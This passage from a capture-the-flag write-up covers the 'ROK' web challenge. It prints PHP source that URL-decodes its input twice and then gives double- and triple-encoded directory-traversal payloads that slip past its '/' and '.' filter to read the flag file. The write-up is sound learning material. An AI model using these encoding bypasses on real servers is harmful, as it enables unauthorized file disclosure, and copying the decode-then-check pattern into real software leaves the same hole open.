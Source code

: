 
==ictf{sqli_too_powerful_9b36140a}==

---
### ROK
**Description**
My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?

**Solution**
Given 2 file `/index.php `and `/file.php`. 
```
/index.php
  xhr.open("GET", "file.php?file=" + randomImageName, true);
            xhr.responseType = "blob";
            xhr.send();
        }
        

/file.php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
```
Briefyly there was Local File Inclusion or directory traverse in index.php when in get file. But there are some restrition where it will decode the payload and the payload cannot contains `/` or `.`.

To exploit this, we can use double encoding for directory. Since we know the flag at /flag and the site directory at /var/www/html/images. We can craft payload look like `../../../../flag.png`

```
Final Payload
--Double Encode
/file.php?file=%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fflag%252Epng

Success on three encoding
/file.php?file=%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252Fflag%25252Epng
```
==ictf{tr4nsv3rsing Ov3r_rO0k5_6a3367}==

---

### IDORIOT
**Description**
Some idiot made this web site that you can log in to. The idiot even made it in php. I dunno.
